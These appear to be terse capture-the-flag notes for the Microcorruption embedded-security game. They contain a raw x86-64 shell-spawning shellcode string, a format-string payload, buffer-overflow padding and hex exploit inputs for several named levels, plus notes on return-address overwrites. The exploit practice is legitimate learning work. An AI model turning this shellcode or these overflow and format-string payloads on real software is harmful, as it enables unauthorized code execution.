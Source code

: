 \x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05


https://microcorruption.com

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA%x%x%x%x%x%x%x%300x


46c14141414141414141414141414141414141414141414141

30127f00b012324541414242434344449842

padding 16
overwritten rip
shellcode

41414141424242424343434344444444004430127e00b0124c45

43ee: start of kopied input
43fe: first after input / login rip 
43fb : shellcode?

30127e00b0124c45 <- 0 destroys 
4141414142424242
ee43

montevideo: 3f4080013f8001010f12b0124c454141ee43
johannesburg: 3f4080013f8001010f12b012944541417a7aec43
santa crus: 4141414141414141414141414141414141111941414141414141414141414141414141414141414141414a44
			4242424242424242424242424242424242

Jakarta:
unlock_door: 444c

user+pass max 32

2402 : user -> 3ff1
2402 : pass -> 

rip 401f